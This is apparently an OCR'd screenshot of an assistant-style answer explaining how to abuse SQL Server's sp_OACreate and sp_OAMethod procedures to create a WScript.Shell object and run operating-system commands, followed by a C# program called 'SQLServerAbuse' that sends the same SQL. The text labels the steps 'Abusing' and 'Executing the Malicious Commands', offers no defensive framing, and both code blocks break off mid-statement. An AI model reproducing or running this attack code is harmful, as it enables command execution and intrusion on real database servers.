 #### Step 1: C# COM Object Interface
First, you need to understand how to interact with a COM object from SQL Server using these stored procedures.

#### Step 2: Abusing SQL Server with `sp_OACreate`
Here’s an example of a SQL command that could be executed on a SQL Server to create a `WScript.Shell` object and run a command:

```sql
DECLARE @Object INT;
DECLARE @Result INT;
DECLARE @Command VARCHAR(255);

-- Create a COM object using sp_OACreate
EXEC sp_OACreate 'WScript.Shell', @Object OUTPUT;

-- Set the command to execute
SET @Command = 'cmd.exe /c whoami > C:\temp\whoami.txt';

-- Execute the command using the COM object
EXEC sp_OAMethod
```


Yes, you can replicate the abuse of `sp_OACreate` and `sp_OAMethod` using C# by directly interfacing with SQL Server and executing SQL commands that leverage these stored procedures. Here’s how you could do it:

### 1. **Setting Up the SQL Connection in C#:**

You need to establish a connection to the SQL Server using `System.Data.SqlClient` or `Microsoft.Data.SqlClient` to execute SQL commands that interact with the `sp_OACreate` and `sp_OAMethod` procedures.

### 2. **Executing the Malicious Commands:**

In C#, you can execute the SQL commands that abuse `sp_OACreate` and `sp_OAMethod` like so:

#### Example Code:

```csharp
using System;
using System.Data.SqlClient;

namespace SQLServerAbuse
{
    class Program
    {
        static void Main(string[] args)
        {
            string connectionString = "Server=your_server;Database=your_database;User Id=your_username;Password=your_password;";

            using (SqlConnection connection = new SqlConnection(connectionString))
            {
                connection.Open();

                string commandText = @"
                    DECLARE @Object INT;
                    DECLARE @Result INT;
                    DECLARE @Command VARCHAR(255);

                    -- Create a COM object using sp_OACreate
                    EXEC sp_OACreate 'WScript.Shell', @Object OUTPUT;

                    -- Set the command to execute
```